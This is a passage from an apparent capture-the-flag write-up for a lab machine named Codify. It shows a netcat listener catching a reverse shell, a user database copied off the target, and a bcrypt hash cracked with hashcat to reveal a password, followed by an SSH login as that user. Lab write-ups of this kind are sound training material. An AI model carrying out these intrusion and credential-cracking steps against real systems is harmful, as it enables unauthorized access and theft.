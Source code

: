 ```
$ nc -lvvvnp 4444
listening on [any] 4444 (krb524)
Connection from 10.10.11.239:54250
bash: cannot set terminal process group (1251): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$
```

## Shell as joshua

Scanning the /etc/passwd file, we find another user called joshua. Our next step will be to try to elevate to this user. Navigating to the /var/www directory, we can find a SQLite3 database named tickets.db. We can copy this database to our machine using wget and try viewing it:

```
$ sqlite3 tickets.db
SQLite version 3.39.5 2022-10-14 20:58:05
Enter ".help" for usage hints.
sqlite> .tables
tickets  users
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite>
```

We can see Joshua's password hash. We can crack this hash using Hashcat:

```
$ hashcat -m 3200 hashes ~/rockyou.txt --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

We can see Joshua's password of spongebob 1. We can now log in using SSH. We can also grab the user flag.

```
$ ssh joshua@10.10.11.239
joshua@10.10.11.239's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 30 01:46:59 PM UTC 2023

  System load:                      1.56201171875
  Usage of /:                       69.1% of 6.50GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        267
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:3ea4


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```